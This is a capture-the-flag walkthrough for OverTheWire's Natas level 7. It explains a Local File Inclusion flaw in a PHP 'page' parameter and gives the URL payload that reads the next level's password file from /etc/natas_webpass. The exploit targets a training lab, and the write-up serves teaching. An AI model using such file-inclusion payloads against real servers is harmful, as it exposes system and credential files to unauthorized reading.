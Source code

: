 # 🔐 Natas 7 Walkthrough

Here we can see two subpages we can go to, while clicking both of them we can see that 
the url changes from:

`http://natas7.natas.labs.overthewire.org/index.php?page=home`

to:

`http://natas7.natas.labs.overthewire.org/index.php?page=about`

What's the difference in those url's? Well the `page=X`, this loads the page based on this parameter.

## 🔍 Observing a Clue

Inspecting the site we can see a hint which tells us that the password is hidden in: 

`/etc/natas_webpass/natas8`

Naturally we try to paste that in the url:

`http://natas7.natas.labs.overthewire.org/index.php?page=about/etc/natas_webpass/natas8`

The output however isnt what we would want. We receive an error:

`Warning: include(about/etc/natas_webpass/natas8): failed to open stream: No such file or directory in /var/www/natas/natas7/index.php on line 21 Warning: include(): Failed opening 'about/etc/natas_webpass/natas8' for inclusion (include_path='.:/usr/share/php') in /var/www/natas/natas7/index.php on line 21`

Why? Because the server is interpreting `page=about/etc/natas_webpass/natas8`, meaning it's looking inside the `about/` folder — which doesn't exist or doesn't contain our target file.

## 🛠 How can we exploit that?

This is a classic Local File Inclusion (LFI) vulnerability. Instead of appending to `about/`, we need to overwrite the entire ***page*** parameter with the full path:

```http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8```

This naturally gives us the password to the next level. 

